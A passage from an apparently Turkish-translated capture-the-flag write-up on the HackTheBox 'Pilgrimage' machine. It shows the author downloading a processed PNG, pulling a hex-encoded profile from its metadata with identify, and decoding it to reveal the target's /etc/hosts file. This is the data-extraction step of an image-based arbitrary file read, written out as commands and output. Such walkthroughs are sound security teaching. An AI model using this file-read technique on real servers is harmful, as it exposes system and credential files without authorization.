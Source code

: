 Bunu siteye göndereceğim ve ortaya çıkan dosyayı indireceğim:

```
oxdf@hacky$ wget http://pilgrimage.htb/shrunk/655cd80f631f0.png    
--2023-11-21 11:17:16--  http://pilgrimage.htb/shrunk/655cd80f631f0.png                                  
Resolving pilgrimage.htb (pilgrimage.htb)... 10.10.11.219                                                
Connecting to pilgrimage.htb (pilgrimage.htb)|10.10.11.219|:80... connected.
HTTP request sent, awaiting response... 200 OK   
Length: 7525 (7.3K) [image/png]                     
Saving to: ‘655cd80f631f0.png’                                                                           
                                                    
655cd80f631f0.png          100%[=====================================>]   7.35K  --.-KB/s    in 0s      
                                                    
2023-11-21 11:17:17 (812 MB/s) - ‘655cd80f631f0.png’ saved [7525/7525]
```

identify -verbose, dosyanın profil bölümünde bulunduğu sonuç meta verilerini gösterecektir:

```
oxdf@hacky$ identify -verbose 655cd80f631f0.png                    
Image:
  Filename: 655cd80f631f0.png
  Format: PNG (Portable Network Graphics)           
  Mime type: image/png
  Class: DirectClass
...[snip]...  
    Raw profile type: 

     205
3132372e302e302e31096c6f63616c686f73740a3132372e302e312e310970696c677269
6d6167652070696c6772696d6167652e6874620a0a232054686520666f6c6c6f77696e67
206c696e65732061726520646573697261626c6520666f7220495076362063617061626c
6520686f7374730a3a3a3120202020206c6f63616c686f7374206970362d6c6f63616c68
6f7374206970362d6c6f6f706261636b0a666630323a3a31206970362d616c6c6e6f6465
730a666630323a3a32206970362d616c6c726f75746572730a
...[snip]...
```

Bu hex okunan dosyadır ve birçok şekilde deşifre edilebilir

```
oxdf@hacky$ echo "3132372e302e302e31096c6f63616c686f73740a3132372e302e312e310970696c6772696d6167652070696c6772696d6167652e6874620a0a232054686520666f6c6c6f77696e67206c696e65732061726520646573697261626c6520666f7220495076362063617061626c6520686f7374730a3a3a3120202020206c6f63616c686f7374206970362d6c6f63616c686f7374206970362d6c6f6f706261636b0a666630323a3a31206970362d616c6c6e6f6465730a666630323a3a32206970362d616c6c726f75746572730a" 
> | xxd -r -p
127.0.0.1       localhost
127.0.1.1       pilgrimage pilgrimage.htb

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```
